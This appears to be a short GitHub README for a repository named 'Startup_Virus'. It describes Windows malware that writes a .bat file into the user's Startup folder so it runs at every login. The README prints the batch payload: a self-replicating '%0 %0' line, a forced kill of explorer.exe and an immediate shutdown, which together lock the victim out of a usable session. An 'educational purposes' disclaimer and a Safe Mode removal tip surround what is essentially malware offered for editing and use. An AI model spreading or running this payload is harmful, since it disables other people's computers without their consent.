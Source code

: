 # Startup_Virus

**Everything was done purely for educational purposes. The spread of viruses is bad! and illegal!**

Simple virus. It is creating .bat file in %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup.

You can easily edit it. By default, the file contains the following code:       `

   +system %0 %0 
   +taskkill /F /IM explorer.exe
   +shutdown /s /t 1
`.
Then it will shutdown ur computer.

You can defeat this virus by deleting the .bat file in your Startup folder in safe mod.

